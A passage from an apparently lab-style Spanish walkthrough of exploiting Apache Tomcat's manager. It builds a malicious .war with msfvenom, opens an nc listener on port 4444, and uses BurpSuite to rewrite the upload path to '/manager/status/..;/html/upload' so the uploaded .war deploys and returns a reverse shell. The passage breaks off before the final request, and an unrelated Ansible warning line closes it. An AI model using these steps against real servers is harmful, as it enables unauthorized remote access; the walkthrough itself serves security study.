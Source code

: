 | Parámetro | Acción |
|:---------:|:------:|
| `-p` | Con este parámetro especificamos el tipo de payload que queremos utilizar |
| `-f` | Este parámetro dice le formato con el que se exportará el archivo |
| `-o` | Este sirve para elegir el nombre con el que se exportará el archivo |

### 2º Paso - Abrimos BurpSuite para que las peticiones pasen a través de este

![image](https://user-images.githubusercontent.com/67548295/141690151-d9359156-6043-4a71-8e98-d4074ff4322f.png)

### 3º Paso - Nos ponemos en escucha por el puerto especificado en el archivo generado por msfvenom

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ nc -lvp 4444
Listening on 0.0.0.0 4444
```

| Parámetro | Acción |
|:---------:|:------:|
| `-l` | Habilita el modo escucha, para conexiones entrantes |
| `-v` | Este parámetro dice que queremos que nos reporte más información de lo normal |
| `-p 4444` | Especificamos el puerto 4444 | 

### 4º Paso - Subimos el archivo .war malicioso al software Tomcat y le damos a _deploy_

![image](https://user-images.githubusercontent.com/67548295/141690429-47783258-40a9-4be6-b91f-a474b4a8f854.png)

### 5º Paso - Vamos al BurpSuite y cambiamos la ruta

Por defecto, al darle al botón de _Deploy_, se hará una petición a la ruta `/manager/html/upload` para subir el archivo.

Desde el `BurpSuite`, tendremos que cambiar esta por `/manager/status/..;/html/upload`

![image](https://user-images.githubusercontent.com/67548295/141690646-89cbfb3c-c160-46a6-8b1d-e94a3c0dd97d.png)

### 6º Paso - Accedemos al recurso que se ha creado con curl

A partir de aquí, si lo hemos hecho bien, se habrá creado un recurso en la **raiz del servidor web** con el nombre que le hayamos puesto al archivo.

En mi caso "not-a-reverse-shell"

Hagamos una **petición** a este recurso para obtener la **reverse shell**:


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'